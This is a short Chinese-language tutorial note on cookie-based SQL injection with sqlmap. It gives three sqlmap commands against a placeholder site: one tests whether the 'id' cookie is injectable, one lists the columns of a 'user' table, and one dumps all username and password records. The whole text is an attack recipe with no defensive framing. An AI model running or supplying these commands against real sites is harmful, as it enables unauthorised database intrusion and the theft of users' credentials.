 003.sqlmap之cookie注入
---

目标网站：`http://www.example.com/news.php?id=110`

> 查看是否存在cookie注入漏洞
```bash
sqlmap -u "http://www.example.com/news.php" --cookie "id=110" --level 2
```

> 查询user表中所有的字段

```bash
sqlmap -u "http://www.example.com/news.php" --columns -T "user" --cookie "id=110" --level 2
```

> 查询数据库user表中username和password字段的所有记录并下载

```bash
sqlmap -u "http://www.example.com/news.php" --dump  -C "username,password" -T "user"  --cookie "id=110" --level 2
```




